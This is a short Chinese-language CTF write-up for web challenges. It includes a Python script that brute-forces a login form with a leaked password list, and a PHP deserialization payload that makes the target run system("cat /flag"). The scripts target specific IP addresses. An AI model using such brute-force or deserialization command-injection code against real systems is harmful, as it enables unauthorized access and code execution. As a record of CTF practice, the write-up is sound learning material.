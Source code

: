 打开题目链接，f12 发现注释中有flag

### EZ_blast

根据index.php 的响应头发现 base64 编码, 解出来是 hint.php

访问 得到 password.txt

开始爆破

```python
import requests
url = 'http://120.79.25.56:30013/'


with open('password.txt') as f:
    str = f.readlines()
for i in range(len(str)-1,0, -1):
    for j in ['admin','Admin','username','']:
        data = {'username':j, 'password' : str[i].strip()}
        r = requests.post(url, data)
        print(data)
        print(r.text[:25])
        if not r.text[0:25]== "<script>alert('账号或密码错误');":
            print('成功',i)
            break
        else:
            if i%10 == 0:
                print(i)


```

JUST{bp_is_useful}

### EZ_pop

反序列化，百度搜索相关结构，构造payload

```python

import requests


url = 'http://106.75.214.10:9993/index.php'

order = 'system("cat /flag");'
num = len(order)

data = {'shana':'O:3:"Pop":2:{s:5:"shana";s:4:"yyds";s:3:"cmd";s:%d:"%s";};'%(num,order)}

#O:3:"Pop":2:{s:5:"shana";s:4:"yyds";s:3:"cmd";s:%d:"%s";};
# O:4:"data":2:{s:8:"username";s:5:"admin";s:8:"password";s:8:"password"};
#a:2:{s:8:"username";s:5:"admin";s:8:"password";s:8:"password";};
#a:2:{s:4:"tool";s:15:"php unserialize";s:6:"author";s:13:"w3cSchool.com";}
r = requests.get(url, data)

print(r.text)
```
